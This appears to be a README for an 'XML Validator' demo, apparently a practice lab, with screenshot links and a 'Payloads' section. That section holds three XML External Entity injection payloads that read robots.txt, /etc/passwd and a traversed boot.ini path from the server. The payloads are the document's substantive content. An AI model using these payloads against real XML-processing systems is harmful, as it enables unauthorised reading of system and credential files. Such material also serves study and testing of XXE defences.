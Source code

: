 #### XML Validator

- Demo

![](images/1.png)

![](images/2.png)

![](images/3.png)

![](images/4.png)

![](images/5.png)

![](images/6.png)

![](images/7.png)

- Payloads

```
<?xml version="1.0"?>
<!DOCTYPE change-log [
<!ENTITY systemEntity SYSTEM "robots.txt">
]>
<change-log>
  <text>&systemEntity;</text>
</change-log>
```

```
<?xml version="1.0"?>
<!DOCTYPE change-log [
<!ENTITY systemEntity SYSTEM "/etc/passwd">
]>
<change-log>
  <text>&systemEntity;</text>
</change-log>
```

```
<?xml version="1.0"?>
<!DOCTYPE change-log [
<!ENTITY systemEntity SYSTEM "../../../../boot.ini">
]>
<change-log>
  <text>&systemEntity;</text>
</change-log>
```